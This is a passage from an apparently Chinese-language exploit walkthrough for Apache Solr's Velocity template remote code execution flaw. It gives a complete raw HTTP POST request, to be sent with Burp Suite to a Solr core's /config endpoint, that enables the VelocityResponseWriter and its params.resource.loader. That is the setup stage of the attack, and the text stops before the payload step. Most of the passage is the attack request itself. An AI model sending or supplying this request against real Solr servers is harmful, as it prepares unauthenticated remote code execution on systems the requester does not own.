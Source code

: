 **利用Burpsuite 发包 ,开启params.resource.loader.enabled**

> params.resource.loader.enabled 默认是false

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

```
http://www.0-sec.org:8983/solr/atom/config 
```

![image](img/1c2e17ccb58d65cf65b14c12c41fcd2e.png)

**BurpSuite request**

```
POST /solr/atom/config HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 259
Connection: close
Upgrade-Insecure-Requests: 1 `{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

}

}` 
```
